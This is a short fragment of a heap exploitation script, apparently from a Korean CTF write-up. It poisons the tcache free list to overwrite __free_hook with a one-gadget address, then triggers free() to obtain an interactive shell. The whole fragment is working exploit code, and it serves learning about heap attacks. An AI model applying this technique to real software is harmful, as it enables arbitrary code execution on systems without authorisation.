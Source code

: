 ```
free()


# tcache[0x50] : first(1) -> free_hook
# chunk : first(1)
edit(p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```
